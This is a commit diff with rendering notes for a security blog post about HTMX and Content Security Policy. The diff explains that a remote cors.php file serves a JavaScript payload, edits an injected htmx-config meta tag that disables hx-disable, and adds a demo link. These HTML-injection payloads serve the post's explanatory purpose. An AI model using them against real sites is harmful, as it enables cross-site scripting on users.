

Before and after one commit to Sjord/Sjord.github.io, a Jekyll site: the page built from _posts/2024-06-18-htmx-content-security-policy.md, in a window 1280 px wide and 900 px high, scrolled down 611 px. Shown: the whole window, without its empty margins (108-879 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Add more words

````diff
--- a/_posts/2024-06-18-htmx-content-security-policy.md
+++ b/_posts/2024-06-18-htmx-content-security-policy.md
@@ -23,6 +23,8 @@ For example, the following tag loads and executes JavaScript that shows an alert
 <div hx-get="https://test.sjoerdlangkemper.nl/cors.php" hx-trigger="load"></div>
 ```
 
+That `cors.php` file contains the JavaScript payload, and also sets CORS headers so that the browser has access to it.
+
 <a href="https://demo.sjoerdlangkemper.nl/htmx/connect.php?name=hacker">Try it</a>
 
 ## Unsafe eval
@@ -33,7 +35,7 @@ HTMX dynamically creates and executes code. There are several HTMX [features](ht
 - [*hx-on* attributes](https://htmx.org/docs/#hx-on)
 - *hx-vals* or *hx-headers* with the `js:` or `javascript:` prefix
 
-For these to work, you have to allow evaluating dynamic code, using the CSP option `unsafe-eval`. However, allowing `unsafe-eval` immediately makes it possible to inject JavaScript using HTMX functionality.
+For these to work, the application has to allow evaluating dynamic code, using the CSP option `unsafe-eval`. However, allowing `unsafe-eval` immediately makes it possible to inject JavaScript using HTMX functionality.
 
 For example, injecting the following tag shows an alert popup:
 
@@ -76,11 +78,13 @@ HTMX has several configuration options, which can be configured using a `<meta>`
 For example, above we mentioned that the `hx-disable` attribute disabled HTMX processing. However, it is possible to rename that attribute in the configuration. By setting it from `hx-disable` to something else, the `hx-disable` functionality can be disabled. This can be achieved by injecting the following tag:
 
 ```
-<meta name="htmx-config" content='{"disableSelector":"outerHTML"}'>
+<meta name="htmx-config" content='{"disableSelector":"something"}'>
 ```
 
 This even works within a tag with *hx-disable*, but only if there is no similar meta tag above it.
 
+<a href="https://demo.sjoerdlangkemper.nl/htmx/disable.php?name=hacker">Try it</a>
+
 ## Conclusion
 
 When a site uses HTMX, the attack surface of HTML injection greatly increases. It is possible to limit the risk of XSS by using a content security policy, but it not possible to have all HTMX features and provide security against injection.
````
